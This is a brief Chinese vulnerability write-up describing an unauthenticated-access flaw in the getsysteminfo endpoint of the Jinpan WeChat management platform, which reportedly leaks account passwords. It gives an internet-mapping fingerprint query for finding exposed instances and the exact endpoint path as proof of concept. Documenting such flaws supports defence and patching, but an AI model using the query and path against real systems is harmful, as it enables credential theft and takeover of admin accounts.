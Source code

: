 # 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

<a-checkbox checked>金盘 微信管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="微信管理后台" && icon_hash="116323821"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683077584403-fa2e6fa6-1f01-4152-99bc-215fb75fe462.png)

验证POC

```python
/admin/weichatcfg/getsysteminfo
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683077636041-b3cc7412-c71c-49bf-ad6a-cd0a386f6673.png)